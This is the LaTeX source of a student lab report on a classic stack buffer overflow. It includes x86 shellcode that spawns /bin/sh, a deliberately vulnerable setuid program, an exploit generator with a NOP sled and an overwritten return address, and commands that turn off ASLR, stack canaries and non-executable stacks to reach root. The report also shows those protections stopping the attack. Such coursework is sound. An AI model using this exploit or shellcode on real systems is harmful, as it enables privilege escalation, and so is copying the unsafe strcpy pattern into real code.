%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mathtools}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother

\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother

\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4920\\ Supervised Independent Study I\\
			\vspace*{4em}
			\LARGE
			\textbf{Buffer Overflow\\}		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2017/18
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
	Buffer overflow is an occurrence where the write operation has exceeded the allocated size of the buffer region and overwritten the data in adjacent regions. Buffer overflows paired with shellcode execution can result in privilege escalation (root access) as will be shown in the attack in the following pages.
	\section{Overview}
	Prior to commencing the attack, we must first understand the memory allocation performed by the operating system. Data and functions to be executed are stored using a stack. In the current scenario, we want our shellcode (malicious code) to be executed. To execute our shellcode, we must overwrite the return address to point to either our \begin{enumerate}
		\item Block of NOP \texttt{(0x90)} code; or
		\item The address of the starting point of our shellcode.
	\end{enumerate} Due to the difficulty in obtaining the absolute address of the starting point of the shellcode, we make use of the block of NOP code to skip to the next instruction until the shellcode is eventually executed. The graphical representation of the components of a stack are shown in Figure 1 for easier reference.
	\iffalse
	\begin{figure}[!h]
		\centering
		
\begin{tikzpicture}
		\draw (-2,3) -- (-2,3.8);
		\draw (2,3) -- (2,3.8);
		\draw[fill=gray!40]  (-2,3)  rectangle node {Stack} (2,2.2);
		\draw (-2,2.2) rectangle (2,1.2);
		\draw[fill=gray!40]  (-2,1.2) rectangle node {Heap}(2,0.4);
		\draw (-2,0.4) rectangle node {BSS Segment} (2,-0.2);
		\draw (-2,-0.2) rectangle node {Data Segment} (2,-0.8);
		\draw (-2,-0.8) rectangle node {Text Segment} (2,-1.4);
		\draw(3.8,3) node[text width=3cm,align=left] {High Address} (3.8,-1.4) node[text width=3cm,align=left] {Low Address};
		\draw (-2,-1.4) -- (-2,-2.2);
		\draw (2,-1.4) -- (2,-2.2);
		\end{tikzpicture}
		\caption{Program Layout}
	\end{figure}
	\fi
	\begin{figure}[!h]
		\centering
		
\begin{tikzpicture}
		\draw[fill=yellow!30]  (-2,3)  rectangle node {Malicious Code} (4,1.5);
		\draw[fill=gray!40]  (-2,1.5) rectangle node {NOP (\texttt{0x90})}(4,0.8);
		\draw[fill=gray!40] (-2,0.8) rectangle node {NOP (\texttt{0x90})} (4,0.1);
		\draw[fill=gray!40] (-2,0.1) rectangle node {NOP (\texttt{0x90})} (4,-0.6);
		\draw[fill=gray!40] (-2,-0.6) rectangle node {\Large{$\rvdots$}} (4,-1.7);
		\draw[fill=gray!40]  (-2,-1.7) rectangle node {NOP (\texttt{0x90})} (4,-2.4);
		\draw[fill=gray!40] (-2,-2.4) rectangle node{NOP (\texttt{0x90})}(4,-3.1);
		\draw[fill=blue!10] (-2,-3.1) rectangle node {Return Address}(4,-3.8);
		\draw[fill=gray!40] (-2,-3.8) rectangle node {NOP (\texttt{0x90})}(4,-4.5);
		\draw[fill=gray!40] (-2,-4.5) rectangle node {\Large{$\rvdots$}} (4,-5.6);
		\draw[fill=gray!40] (-2,-5.6) rectangle node {NOP (\texttt{0x90})}(4,-6.3);
		\draw(6.5,3) node[text width=3cm,align=left] {High Address}  (6.5,-1.65) node[text width=3cm,align=left] {Stack's growing\\ direction}  (6.5,-6.3) node[text width=3cm,align=left] {Low Address};
		\draw[->,line width=0.5mm](4.6,3) -- (4.6,-6.3);
		\end{tikzpicture}
		\caption{Layout of (Vulnerable) Stack}
	\end{figure}
	\newpage\section{Vulnerability Exploit}
	\subsection{VM Preparation}
	\vspace{1em}
	\begin{enumerate}
		\item \textbf{Address Space Layout Randomization (ASLR)} \begin{par}ASLR is a protection feature that randomizes the starting address location of the heap and stack. This ensures that the execution address is not deterministic and easily exploited by the hacker. For this lab, we switch this protection off to easily simulate an attack. The following code disables the feature:
			\begin{verbatim}
			$ su
			# sysctl -w kernel.randomize_va_space=0
			\end{verbatim}
		\end{par}
		\item \textbf{StackGuard Protection}\begin{par}The GCC compiler includes a protection mechanism called \textit{StackGuard} to detect and prevent buffer overflows. This mechanism checks if the information on the stack such as the return address have been overwritten and prevent the execution of instructions thereafter. This protection is temporarily disabled by declaring the following switch \texttt{-fno-stack-protector} when compiling with GCC.\begin{verbatim}
			$ gcc -fno-stack-protector someprog.c\end{verbatim}
		\end{par}
		\item \textbf{Non-Executable Stack}\begin{par}Newer operating systems have support for \textit{No-eXecute}, or \textit{NX} for short. Regions that are marked are non-executable will not be processed by the processor. This is a feature that is built into modern CPUs and toggled in the motherboard settings, known as \textit{eXecute Disable (XD)} on Intel or \textit{Enhanced Virus Protection} on AMD systems. The default setting for the stack in our VM is  \textbf{non-executable}. Attempting to overwrite the stack will throw an exception to the user. \\\\In this lab, we explicitly set the stack to be executable using the following code when compiling with GCC:
			\begin{verbatim}
			$ gcc -z execstack -o someprog someprog.c
			\end{verbatim}
		\end{par}
		\newpage
		\item \textbf{(Test) Shellcode} \begin{par}
			Before we attempt the lab, we use the (given) shellcode to test whether we are able to obtain a shell\footnote{The provided shellcode.c from the website is missing the
				\#include $<$string.h$>$ line.}.\end{par}
		\begin{minted}{C}
/* call_shellcode.c  */
		
/*A program that creates a file containing code for launching 
shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
		
const char code[] =
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;
		
int main(int argc, char **argv)
{
    char buf[sizeof(code)];
    strcpy(buf, code);
    ((void(*)( ))buf)( );
} 
		\end{minted}
		We compile the code with the \texttt{execstack} switch on. \begin{verbatim}
$ gcc -z execstack -o call_shellcode call_shellcode.c\end{verbatim}
		\newpage
		\item \textbf{Vulnerable Program} \begin{par}We prepare the program with the stack buffer overflow vulnerability and compile in root mode. We turn off  the non-executable stack and StackGuard protections.\begin{verbatim}
			$ su
			# gcc -o stack -z execstack -fno-stack-protector stack.c -g
			# chmod 4755 stack
			# exit
			\end{verbatim} 
			We take note of the following two pointers in the code above. Firstly, we use the \texttt{-g} switch to add debugging information for easier reference to the memory addresses later (Not used in the lab reference sheet). Secondly, 4755 sets the execution of the program to use root privileges (u+s) as we want root to be the owner of the file.\end{par}
	\end{enumerate}
	\newpage
	\subsection{Exploiting Vulnerability}
	We first compile the exploit.c and run the \texttt{./stack} executable as is to obtain the memory address of the buffer. As the address of the stack (and the buffer) does not change, then recompiling the program using the same steps (and compiler) yields the same results. We can analyse the buffer contents using the \texttt{gdb} debugger tool. We set the breakpoint at the function \texttt{bof} where the copying of the buffer occurs.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{BufferAnalysis}
		\caption{Buffer Address Debugging}
		\label{fig:bufferanalysis}
	\end{figure}
	\noindent We mention that the string has a hex value of \texttt{0xbffff177}, which corresponds to the address \texttt{0xbffff160} or third item in the third line of the buffer. Using figure 1 as a guide, we know that the content of that address is a pointer to the string. Therefore, the hex value \texttt{0x080484ff} is the return value that we need to overwrite.
	In our exploit.c code, we can add the following code:
	\begin{minted}{C}
//Overwrite the first 24 bytes (char) of buffer with random values
int i;
long *fill = (long *) buffer;
for(i=0;i<9;i++,fill++) *fill = 0x90909090;

//Return Address Overwrite
*fill = 0xbffff138+64+24;
//24 (bytes) is the length of the shellcode

//Copy shellcode for vulnerability execution
strcpy(buffer+64,shellcode);
	\end{minted}
	The return address, denoted as \texttt{0xbffff138+64+24} must be bigger or equals to the hex address of where the shellcode is located. If the address is bigger, then the NOP will help to skip addresses until the shellcode is executed. It is worth noting that a bigger number is suitable as it is not known how much random data the compiler may store in the stack.\\\\Compiling exploit.c and executing the program allows us to obtain the shell. Upon further analysis using the commands \texttt{whoami} and \texttt{id}, we see that we currently have root privileges as our \texttt{euid} (effective userid) is 0.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{ExploitExec}
		\caption{Privilege Escalation}
		\label{fig:exploitexec}
	\end{figure}
	\noindent If we go further, we can effectively set our userid to root instead of our current userid, seed. We compile the following C file with the following code inside.\begin{verbatim}
	void main()
	{
	    setuid(0);
	    system("\bin\sh");
	}
	\end{verbatim}
	Compiling the program on a separate Terminal window,
	\begin{verbatim}
	$ gcc -o privup privup.c
	\end{verbatim}
	we can go back to the Terminal window where we currently have our shell and execute the C code that has just been compiled. We check again using \texttt{whoami} and \texttt{id} and we now notice that our userid has been changed to root.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{PrivUp}
		\caption{Full Root Privileges}
		\label{fig:privup}
	\end{figure}
	\noindent This change will allow us to run programs that require the userid to strictly be root only.
	\subsection{Address Randomisation}
	In this part of the lab, we apply address randomisation by now setting the flag \texttt{kernel.randomize\_va\_space=2} in \texttt{su} mode. Due to the address of the stack and the buffer being randomised, executing the program will take awhile, however the VM has been assigned with 512MB and the probability of obtaining a shell will thus be $\frac{1}{2^{29}}$. We can run the following code \texttt{sh -c "while [ 1 ]; do ./stack; done;"} until we obtain the shell prompt. Eventually we will either hit the address where the shellcode is located or the NOP block where it will skip addresses until the shellcode is executed.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{AddrRandom}
		\caption{With Address Randomisation}
		\label{fig:addrrandom}
	\end{figure}
	\noindent In the figure above, we receive the prompt ``Segmentation fault (core dumped)'' multiple times during the while loop, this indicates that the exploit was trying to access memory that the user has no access to, resulting in an error being thrown to the screen.
	\subsection{StackGuard}
	To view the different protections that GCC compiler offers for buffer overflow, we turn on StackGuard by compiling without the \texttt{-fno-stack-protector} switch.\begin{verbatim}
	# gcc -o stack -z execstack stack.c
	\end{verbatim}
	When we execute \texttt{./stack} this time, we get the error ``Stack smashing detected'' and the program terminates immediately. Using \texttt{gdb} to debug, we notice that with every execution of the program, the hex value at \texttt{0xbffff13c} changes. This protection is used to detect a buffer overflow before execution of any code thereafter. As this canary value is located in a lower memory address than the return address, then attempting to  overwrite the return address will also result in the canary value being overwritten and triggering an error to the user.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{StackGuard}
		\caption{Buffer Protection at \texttt{0xbffff13c}}
		\label{fig:stackguard}
	\end{figure}
	\subsection{Non-executable Stack}
	In this instance, we make our stack non-executable by declaring the option \texttt{noexecstack} option.
	\begin{verbatim}
	# gcc -o stack -fno-stack-protector -z noexecstack stack.c
	\end{verbatim}
	Using \texttt{gdb} to analyse the buffer again, we notice that the result from our debugging is the same as figure 2, with all the data being successfully copied over. When continuing to step into the function, we are thrown the error ``Segmentation fault (core dumped)''. This is due to the illegal access of memory that has been marked as non-executable. It implies that the region of the memory that is marked as non-executable will not be executed by the processor and hence the error will be thrown to the user. It is important to know that the shellcode is outside the address allocated to the buffer (24 bytes).
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\linewidth]{NXFault}
		\caption{Non-Executable Fault}
		\label{fig:nxfault}
	\end{figure}
	\newpage
	\section{Appendix}
	\subsection{Buffer Overflow Exploitation: \texttt{stack.c}}
	\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (char *str)
{
	char buffer[24];
	
	strcpy(buffer, str);
	
	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;
	
	badfile = fopen("badfile","r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
	\end{minted}
	\newpage
	\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{minted}{C}
/* Creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
	char buffer[517];
	
	FILE *badfile;
	
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	
	//Fill up the buffer
	long *fill = (long *) buffer;
	int i;
	for(i=0;i<9;i++,fill++) *fill=0x90909090;
	*fill=0xbffff170;
	strcpy(buffer+64,shellcode);
	
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
\end{minted}
\end{document}